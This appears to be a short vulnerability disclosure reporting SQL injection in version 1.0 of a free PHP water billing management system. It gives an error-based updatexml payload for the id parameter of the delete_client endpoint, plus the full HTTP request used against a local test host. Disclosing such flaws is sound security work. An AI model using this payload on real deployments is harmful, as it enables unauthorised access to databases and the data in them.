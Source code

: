 # water-billing-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15309/water-billing-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /wbms/classes/Master.php?f=delete_client

Vulnerability location: /wbms/classes/Master.php?f=delete_client, id

[+] Payload:id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /wbms/classes/Master.php?f=delete_client HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/wbms/admin/?page=clients
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/wbms_bug_report/blob/main/water-billing-management-system/sql.gif?raw=true)

